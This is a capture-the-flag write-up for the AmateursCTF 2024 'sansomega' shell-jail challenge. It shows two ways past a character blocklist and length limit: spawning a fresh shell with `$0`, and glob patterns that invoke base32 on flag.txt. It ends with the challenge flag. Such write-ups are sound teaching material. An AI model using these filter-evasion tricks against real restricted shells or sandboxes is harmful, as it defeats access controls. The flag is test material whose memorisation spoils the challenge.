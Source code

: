 ```yaml
---
title: "sansomega"
description: "Somehow I think the pico one had too many unintendeds..."
points: 207
solves: 230
author: Jozef Steinhübl
date: April 10 2024
---
```


## Introduction

![task](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-jail-sansomega.png)

In this challenge, we had to bypass restrictions and write a shellcode that reads a `flag.txt` file and prints its content. We can't use any character from
```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]
```

and can't have command longer than 20 characters.

## Solution

We can type `$0` which allows us to execute any command and bypass the restrictions as it's directly executed in the subprocess.

```bash
$ $0
cat flag.txt
exit
```

or we can also use `base32` and read flag.txt using that.

```bash
$ /???/????32 *.???
```

> We must use `???` instead of `bin` because we can't use any of the characters from the restricted list.  
> Sh will expand `???` to `bin`, `????32` to `base32` and `*.???` to `flag.txt`.  

Woala! We got the flag!

```
amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}$
```